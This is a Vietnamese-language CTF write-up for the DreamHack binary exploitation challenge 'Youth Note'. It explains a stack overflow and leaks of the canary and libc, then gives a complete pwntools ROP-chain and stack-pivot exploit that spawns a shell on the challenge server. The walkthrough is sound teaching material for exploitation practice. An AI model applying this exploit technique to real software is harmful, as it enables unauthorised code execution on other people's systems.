

# Youth-Note---Write-up-----DreamHack
Hướng dẫn cách giải bài Youth Note cho anh em mới chơi pwnable.

**Author:** Nguyễn Cao Nhân aka Nhân Sigma

**Category:** Binary Exploitation

**Date:** 29/1/2026

## 1.Mục tiêu cần làm
Đầu tiên là xem các lớp bảo vệ



Wow không bất ngờ lắm, anyway hãy đọc code nào.

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+8h] [rbp-28h] BYREF
  int v5; // [rsp+Ch] [rbp-24h] BYREF
  __int64 buf[4]; // [rsp+10h] [rbp-20h] BYREF

  buf[3] = __readfsqword(0x28u);
  v4 = 0;
  v5 = 0;
  buf[0] = 0LL;
  buf[1] = 0LL;
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(_bss_start, 0LL, 2, 0LL);
  while ( v4 != 4 )
  {
    print_menu();
    __isoc99_scanf(&unk_2004, &v4);
    if ( v4 != 4 )
    {
      if ( v4 > 4 )
        goto LABEL_11;
      switch ( v4 )
      {
        case 3:
          printf("Make signature : ");
          read(0, buf, 48uLL);             // Buffer Overflow
          printf("Your signature : %s\n", (const char *)buf);      // In đến khi gặp byte null thì dừng
          break;
        case 1:
          printf("Input index : ");
          __isoc99_scanf(&unk_2004, &v5);
          puts(&memo[v5]);              // OOB
          break;
        case 2:
          printf("Write memo : ");
          read(0, memo, 0x1000uLL);
          break;
        default:
LABEL_11:
          puts("Invalid input!");
          break;
      }
    }
  }
  return 0;
}
```

Bài này có 3 cách giải nhưng mình sẽ giải cách dễ nhất là sử dụng ROPchain và leak libc. Vì bài này nó cho nhập vào stack và in ra liên tục nên mình sẽ leak từng cái là Canary + stack addr, Leak Libc.

## 2. Cách thực thi
Đầu tiên là ta sẽ leak Canary và stack addr. Ta sẽ leak 2 cái này cùng lúc vì nó nằm kế bên nhau.

```Python
p.sendlineafter('> ', b'3')

payload = b'A' * 25

p.sendafter(b'Make signature : ', payload)

p.recvuntil(b"A" * 25)
leaked_data = p.recv(13)
canary = u64(b"\x00" + leaked_data[:7])
stack_addr = u64(leaked_data[7:13].ljust(8, b"\x00"))

log.info(f"Canary: {hex(canary)}")
log.info(f"Leaked Stack (RBP): {hex(stack_addr)}")
```

Sau đó là leak Libc. Vì RIP nó là `libc_main_start` nên ta chỉ cần đè tới RIP là in ra được rồi.

```Python
p.sendlineafter('> ', b'3')

payload = b'A' * 40
p.sendafter(b'Make signature : ', payload)

p.recvuntil(b'A' * 40)
libc_leak = u64(p.recv(6) + b'\x00'*2 )
log.info(f"leak Libc : {hex(libc_leak)}")

libc_base = libc_leak - 0x2a1ca
log.info(f"Libc base : {hex(libc_base)}")
```

Ok giờ đã có hết nguyên liệu rồi, bắt đầu nấu ăn thôi.

Giờ ta sẽ sử dụng kĩ thuật ROPchain và Stack Pivot. Ta sẽ nhét ROPchain vào đầu buf, sau đó nhét địa chỉ buf vào RBP để nó quay về thực thi là xong.

```Python
pop_rdi = libc_base + 0x10f78b
leave_ret = libc_base + 0x299d2
binsh = libc_base + 0x1cb42f
system = libc_base + 0x58750

payload = p64(pop_rdi)
payload += p64(binsh)
payload += p64(system)
payload += p64(canary)
payload += p64(stack_addr - 0xc0 - 8)    # 0xc0 các bạn hãy vào gdb xem cái stack addr mình leak là bao nhiêu và trừ cho buf là ra
payload += p64(leave_ret)

p.sendafter(b'Make signature : ', payload)
```

Các bạn phải trừ thêm 8 byte nữa nó mới về đúng đầu của buf vì ta sử dụng `leave, ret` rồi ( tra AI để hiểu thêm ).

Vậy là xong, bài này các bạn có thể sử dụng **Onegadget** hoặc leak Binary bằng **OOB** và sau đó ghi ROPchain vào `memo` và Stack Pivot vô nó là xong. Hãy cho mình 1 star để có động lực viết thêm write up mới nha 🐧. Bài viết này được tài trợ bởi anh Ộ I I, nên mình sẽ quảng cáo bã mía loại 2 đè tem của anh ộ i i nha mọi người 🐱. Anh chộ tôi đó !


## 3. Exploit
```Python
from pwn import *

#p = process('./main_patched')
p = remote('host3.dreamhack.games', 9107)
#e = ELF('./main_patched')
e = ELF('./main')
libc = ELF('./libc.so.6')

p.sendlineafter('> ', b'3')

payload = b'A' * 25

p.sendafter(b'Make signature : ', payload)

p.recvuntil(b"A" * 25)
leaked_data = p.recv(13)
canary = u64(b"\x00" + leaked_data[:7])
stack_addr = u64(leaked_data[7:13].ljust(8, b"\x00"))

log.info(f"Canary: {hex(canary)}")
log.info(f"Leaked Stack (RBP): {hex(stack_addr)}")

p.sendlineafter('> ', b'3')

payload = b'A' * 40
p.sendafter(b'Make signature : ', payload)

p.recvuntil(b'A' * 40)
libc_leak = u64(p.recv(6) + b'\x00'*2 )
log.info(f"leak Libc : {hex(libc_leak)}")

libc_base = libc_leak - 0x2a1ca
log.info(f"Libc base : {hex(libc_base)}")

p.sendlineafter('> ', b'3')

pop_rdi = libc_base + 0x10f78b
leave_ret = libc_base + 0x299d2
binsh = libc_base + 0x1cb42f
system = libc_base + 0x58750

payload = p64(pop_rdi)
payload += p64(binsh)
payload += p64(system)
payload += p64(canary)
payload += p64(stack_addr - 0xc0 - 8)
payload += p64(leave_ret)

p.sendafter(b'Make signature : ', payload)

p.sendlineafter('> ', b'4')

p.interactive()
```
